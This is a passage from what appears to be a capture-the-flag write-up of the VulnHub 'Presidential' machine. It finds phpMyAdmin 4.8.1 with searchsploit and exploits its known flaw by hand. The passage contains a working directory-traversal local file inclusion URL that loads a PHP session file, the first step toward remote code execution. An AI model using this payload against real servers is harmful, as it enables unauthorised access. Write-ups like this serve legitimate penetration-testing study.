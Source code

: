After some time performing an exhaustive scan, we see that the phpmyadmin version is ^**4.8.1**. Using searchsploit we can find vulnerabilities:
```
searchsploit phpmyadmin 4.8.1
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                                                                           | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                                                                           | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                                                                                                        | php/webapps/50457.py
```

We will focus our attention on the **Remote Code Execution (RCE)**. In this case we will not use the exploit to automate everything but we will do manually:

We have to put our session cookie:
```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_r3i75sdop9i2tgngpd2al9be1rs6mo36
```
Now we can see a lot of information in the phpmyadmin interface:

![](/assets/images/2024-08-14-vulnhub-Presidential/information_db.png)

What we have to do now is a test using the sql, in order to derive the LFI to a RCE:

![](/assets/images/2024-08-14-vulnhub-Presidential/query_test.png)
